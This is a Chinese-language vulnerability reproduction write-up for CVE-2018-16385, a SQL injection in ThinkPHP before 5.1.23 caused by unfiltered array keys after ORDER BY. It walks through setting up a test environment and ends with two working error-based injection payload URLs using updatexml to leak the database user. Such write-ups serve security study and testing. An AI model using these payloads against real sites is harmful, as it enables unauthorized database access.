 （CVE-2018-16385）Thinkphp 5.1.x SQL注入
========================================

一、漏洞简介
------------

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order
by
后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

二、漏洞影响
------------

ThinkPHP \< 5.1.23

三、复现过程
------------

### 环境搭建

#### 1.下载安装thinkphp5.1.x

对于thinkphp5.1.x完整版，目前官方没有直接下载的链接。Github上只是放出核心版。该版本需要以Composer或Git方式进行安装。

这里以Composer安装方式说明。

在 Linux 和 Mac OS X 中可以运行如下命令：

    curl -sS https://getcomposer.org/installer | php

    mv composer.phar/usr/local/bin/composer

在 Windows 中，你需要下载并运行 Composer-Setup.exe 。

安装好之后，切换路径到WEB目录下运行：

    composercreate-project topthink/think=5.1.1 tp5.1 --prefer-dist

然后会生成一个名为tp5.1的文件夹。到此think5.1.1下载成功。

#### 2.然后在浏览器中访问

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-16385)Thinkphp<5.1.23sql注入漏洞/media/rId27.png)

image.png如果出现该页面，则证明安装成功。

#### 3.Demo示例

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-16385)Thinkphp<5.1.23sql注入漏洞/media/rId29.png)

编写Demo文件，并将文件命名为Test.php，然后放在/tp5.1/application/index/controller/目录下。

#### 4.数据库

与Demo文件匹配，需要创建一个user表，然后设一个字段(id)。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-16385)Thinkphp<5.1.23sql注入漏洞/media/rId31.png)

### Payload构造

根据以上分析，构造payload需要满足以下条件：

1.传入的\$order需要是一个数组。

2.\$val 必须也是数组。

3.至少知道数据库表中的一个字段名称，并且传入两个参数。

4.闭合 \` 。

最终Payload构造如下：

    http://0-sec.org/tp5.1/public/index/test/index?order[id`,111)|updatexml(1,concat(0x3a,user()),1)%23][]=1

或

    http://0-sec.org/tp5.1/public/index/test/index?order[id`,'aaa')| updatexml(1,concat(0x3a,user()),1)%23][]=
